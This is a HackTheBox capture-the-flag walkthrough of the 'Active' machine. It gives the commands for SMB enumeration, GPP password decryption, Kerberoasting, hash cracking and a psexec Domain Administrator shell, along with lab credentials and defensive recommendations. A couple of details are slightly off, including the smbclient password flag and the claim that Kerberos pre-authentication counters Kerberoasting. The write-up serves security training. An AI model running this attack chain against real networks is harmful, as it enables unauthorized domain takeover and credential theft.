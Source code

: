 ![](images/image0.png)

# Active HackTheBox Walkthrough

This report provides a professional step-by-step analysis of the **Active** machine compromise.  
It details the enumeration, decryption, Kerberoasting, and privilege escalation process leading to full **Domain Administrator** access.

---

## 1. Initial Reconnaissance

We began by scanning all open ports and services on the target `10.129.174.50`:

```bash
nmap -p- -Pn 10.129.174.50 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.174.50 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.174.50 -v --script vuln -oN nmap_vuln.txt
```

![](images/image2.png)

The scan identified **SMB ports (139, 445)**, indicating an accessible Windows domain service.

---

## 2. SMB Enumeration & Share Discovery

We enumerated the SMB shares using **NetExec** to identify readable shares for anonymous access:

```bash
netexec smb 10.129.174.50 -u "" -p "" --shares
```

![](images/image8.png)

An **anonymous share** named `Replication` was found to be **readable**, suggesting potential misconfiguration.

---

## 3. Discovering Sensitive Data in the Replication Share

After browsing through the share, we located an **XML file** containing critical domain configuration data.

![](images/image5.png)

The file revealed the **domain name**, **service account username**, and an **encrypted password** for the `SVC_TGS` account.

![](images/image7.png)

---

## 4. Decrypting the Group Policy Preference (GPP) Password

The encrypted password followed the **Group Policy Preferences (GPP)** format.  
We used the following open-source tool to decrypt it:

🔗 [https://github.com/t0thkr1s/gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt)

```bash
gpp-decrypt 'encrypted_password_here'
```

![](images/image1.png)

The decrypted plaintext password was successfully recovered:

```
Username: SVC_TGS
Password: GPPstillStandingStrong2k18
Domain: active.htb
```

---

## 5. Kerberoasting Attack for Service Tickets

Using the recovered credentials, we performed **Kerberoasting** to extract Service Principal Names (SPNs) and their associated Kerberos tickets:

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:"GPPstillStandingStrong2k18" -dc-ip 10.129.174.50 -request
```

![](images/image3.png)

We obtained a **krb5tgs ticket hash**, which was then cracked using John the Ripper:

```bash
john --wordlist=rockyou.txt hash.txt
```

![](images/image6.png)

The cracked password revealed the **Administrator’s password**:

```
Administrator : Ticketmaster1968
```

---

## 6. Domain Administrator Access

We authenticated using the cracked administrator credentials and executed commands with full domain privileges.

![](images/image10.png)

Access was verified using Impacket’s **psexec** tool:

```bash
impacket-psexec active.htb/administrator:Ticketmaster1968@10.129.174.50
```

![](images/image9.png)

This granted an interactive shell with **Domain Administrator** privileges, confirming total system compromise.

---

## 7. Retrieving the User Flag

To validate user-level access, we reconnected using the `SVC_TGS` credentials via SMB:

```bash
smbclient -U SVC_TGS -p "GPPstillStandingStrong2k18" \\10.129.174.50\Users
```

![](images/image4.png)

The **user flag** was successfully retrieved from the share.

---

## 8. Conclusion

This assessment demonstrates a complete Active Directory compromise through credential recovery and Kerberos-based privilege escalation.

### Key Findings
- Anonymous SMB share exposed sensitive XML configuration files.  
- Group Policy Preferences stored reversible AES-encrypted passwords.  
- Weak or reused credentials facilitated Kerberoasting and password cracking.  
- Lack of SMB hardening allowed unauthorized data access.

### Security Recommendations
- Disable anonymous SMB access and enforce authentication for all shares.  
- Remove legacy GPP passwords from SYSVOL and restrict XML policy exposure.  
- Implement Kerberos pre-authentication and strong password policies.  
- Regularly rotate service account credentials and monitor Kerberos ticket requests.  
- Conduct Active Directory configuration audits to identify misconfigurations early.

---
